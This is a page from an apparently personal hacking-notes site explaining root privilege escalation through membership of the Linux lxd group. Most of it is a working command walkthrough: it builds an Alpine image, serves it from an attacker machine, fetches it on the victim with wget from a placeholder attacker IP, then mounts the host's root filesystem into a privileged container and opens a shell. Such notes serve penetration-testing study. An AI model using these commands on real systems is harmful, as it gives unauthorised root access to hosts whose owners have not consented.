

repository: amandaguglieri/hackinglife · page: lxd/index.html · generator: mkdocs

---
title: lxd 
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - privilege escalation
  - linux
  - lxd
---
# lxd

Linux Daemon ([LXD](https://github.com/lxc/lxd)) is similar to Docker and is Ubuntu's container manager. LXD is a management API for dealing with LXC containers on Linux systems. It will perform tasks for any members of the local lxd group. It does not make an effort to match the permissions of the calling user to the function it is asked to perform.

Before we can use this service to escalate our privileges, we must be in either the `lxc` or `lxd` group.

[Source: https://www.hackingarticles.in/lxd-privilege-escalation/](https://www.hackingarticles.in/lxd-privilege-escalation/). In this article, you can find a good explanation about how lxc works. [Original source: https://bugs.launchpad.net/ubuntu/+source/lxd/+bug/1829071](https://bugs.launchpad.net/ubuntu/+source/lxd/+bug/1829071).

## Privileges escalation

Privilege escalation through lxd requires the access of local account and that that local account belongs to the group lxd.

### Create our own container with Alpine and transfer it to the target system
In order to take escalate the root privilege of the host machine you have to create an image for lxd thus you need to perform the following the action:

**Steps to be performed on the attacker machine:**

```bash
# Download build-alpine in your local machine through the git repository:
git clone https://github.com/saghul/lxd-alpine-builder.git

# Execute the script “build -alpine” that will build the latest Alpine image as a compressed file, this step must be executed by the root user.
cd lxd-alpine-builder
sudo ./build-alpine

# This will generate a tar file that you need to transfer to the victim machine. For that you can copy that file to your /var/www/html folder and start apache2 service.
```

**Steps to be performed on the victim machine:**

```bash
# Download the alpine image. Go for instance to the /tmp folder and, if you have started the apache2 service in the attacker machine, do a wget:
wget http://AtackerIP//alpine-v3.17-x86_64-20230508_0532.tar.gz

# After the image is built it can be added as an image to LXD as follows:
lxc image import ./alpine-v3.17-x86_64-20230508_0532.tar.gz --alias myimage

# List available images:
lxc image list

# Initiate your image inside a new container
lxc init myimage ignite -c security.privileged=true

# Mount the container inside the /root directory
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true

# Initialize the container
lxc start ignite

# Launch a shell command in the container
lxc exec ignite /bin/sh

# Access the system via 
ls -l /mnt/root
```
